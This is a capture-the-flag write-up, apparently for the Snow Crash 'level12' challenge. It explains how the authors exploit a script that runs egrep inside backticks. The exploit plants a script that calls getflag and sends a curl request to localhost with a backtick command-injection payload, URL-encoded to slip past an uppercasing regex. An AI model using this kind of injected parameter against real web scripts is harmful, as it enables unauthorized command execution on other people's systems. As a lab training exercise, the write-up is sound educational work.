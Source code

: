 ## Project README: Finding flag12

Our routine: 
```bash
ls -la
find / -user flag12 -print 2>/dev/null
```

Firstly we cried a lot when we saw that it was a **regex**
Secondly when we cat the file we saw that **egrep** was inside **\`\`**
So the idea is to make this file run getflag cause in doing so we are not running getflag as user **level12** but as **flag12** since level12 file was created by **flag12**.

To do so, we create a file with getflag and a redirection like so:
```bash
echo 'getflag > /var/crash/flag' > /var/crash/123
```
We gave it all permission with :
```bash
chmod 777 /var/crash/123
```
Then we tryed to send our params with curl as :
```bash
curl http://127.0.0.1:4646/?x=\`/*/*/123\`&y=y
```
Due to the regex we had to put * instead of the repo bc the regex
put everything on maj.

But it did not work, so we tryed it with encode url:
```bash
curl http://127.0.0.1:4646/?x=%60%2F%2A%2F%2A%2F123%60&y=y
```

And VOILA
